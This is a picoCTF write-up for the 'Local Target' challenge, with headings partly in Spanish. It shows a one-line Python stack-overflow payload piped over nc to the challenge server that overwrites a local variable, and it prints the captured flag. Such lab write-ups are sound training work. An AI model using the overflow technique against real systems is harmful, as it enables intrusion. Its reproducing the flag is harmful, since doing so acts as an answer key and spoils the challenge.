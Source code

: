 # Local Target

## Descripción
Smash the stack Can you overflow the buffer and modify the other local variable? The program is available [here](https://artifacts.picoctf.net/c/518/local-target). You can view source [here](https://artifacts.picoctf.net/c/518/local-target.c). And connect with it using: `nc saturn.picoctf.net 61316`

## Pistas
- Do anything you can to change `num`.
- When you change `num`, view the value as hexadecimal.

## Solución

```
eltetor14-picoctf@webshell:~$ python -c "print('A'*24 + '\x41')" | nc saturn.picoctf.net 61316
Enter a string: 
num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}
eltetor14-picoctf@webshell:~$ 
```

## Bandera
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}

## Notas adicionales

## Referencias
